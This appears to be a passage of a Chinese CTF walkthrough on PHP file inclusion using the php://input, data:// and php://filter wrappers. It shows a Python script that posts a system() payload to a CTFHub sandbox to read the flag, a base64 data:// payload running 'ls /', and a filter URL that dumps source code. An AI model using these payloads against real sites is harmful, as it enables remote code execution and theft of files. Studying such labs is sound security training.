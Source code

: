 这里发现必须使用php://伪协议

**`php://input`**

作用：

> 执行POST数据中的php代码

示例：

> `http://127.0.0.1/cmd.php?cmd=php://input`
>
>> POST数据：`<?php phpinfo()?>`
>>

注意：

> `enctype="multipart/form-data"` 的时候 `php://input` 是无效的
>
> 此处因为不符合hackbar的post规范,所以使用不了,这里我用python发包

```python
import requests
url = "http://challenge-1f65d5458f95e088.sandbox.ctfhub.com:10800/?file=php://input"
data = "<?php system('cat /flag_14346');?>"
response = requests.post(url, data=data)
print(response.text)
```

#### 远程包含

data://

作用：

> 自PHP>=5.2.0起，可以使用data://数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。一般需要用到 `base64编码`传输

示例：

> `http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCJscyAvIik7Pz4=`

#### 读取源代码

`/?file=php://filter/read=convert.base64-encode/resource=/flag`

**`php://filter`**

作用：

> 读取源代码并进行base64编码输出

示例：

> `http://127.0.0.1/cmd.php?cmd=php://filter/read=convert.base64-encode/resource=[文件名]（针对php文件需要base64编码）`

参数：

> resource=<要过滤的数据流> 这个参数是必须的。它指定了你要筛选过滤的数据流
> read=<读链的筛选列表> 该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
> write=<写链的筛选列表> 该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
> <；两个链的筛选列表> 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。
